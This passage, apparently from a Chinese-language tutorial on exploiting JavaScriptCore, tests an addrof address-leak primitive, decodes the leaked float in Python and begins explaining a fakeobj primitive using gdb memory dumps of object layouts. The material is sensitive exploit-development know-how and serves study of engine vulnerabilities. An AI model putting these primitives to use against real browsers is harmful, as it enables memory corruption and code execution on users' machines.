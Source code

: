 ```javascript
    return AddrGetter(array);
}
```

测试任意对象地址泄露原语的效果
```javascript
arr = [1, 2, 3]

print(describe(arr))
// Object: 0x7f2ffbeb4340 with butterfly 0x7f20000e4010 (Structure 0x7f2ffbef2c30:[Array, {}, CopyOnWriteArrayWithInt32, Proto:0x7f2ffbec80a0, Leaf]), StructureID: 102

print(addrof(arr))
// 6.909214912619e-310
```

解码后可以看到`addrof`原语效果不错
```python
>>> hex(struct.unpack("Q", struct.pack("d", 6.909214912619e-310))[0])
>>> '0x7f2ffbeb4340'
```

接下来实现任意伪造对象原语`fakeobj`

任意地址构造对象的重要前提是这个地址指向的是合法的对象，如同Poc里所展示的，默认情况下，地址`0x0000616161616161`大概率是不会有合法对象存在的

创建一个空对象，它的butterfly目前是空的，第一个属性`obj.x`值为`1`
```
>>> obj = {}
>>> obj.x = 1
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470310:[Object, {x:0}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 294

(gdb) x/4gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000126	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0x0000000000000000
```

创建一个空对象，并添加三个属性，此时butterfly依旧为空，所有属性内联
```
>>> obj = {}
>>> obj.x = 1
>>> obj.y = 2
>>> obj.z = 3
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf4703f0:[Object, {x:0, y:1, z:2}, NonArray, Proto:0x7fffaf4b4000, Leaf]), StructureID: 296

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000128	0x0000000000000000
0x7fffaf4b0090:	0xffff000000000001	0xffff000000000002
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```
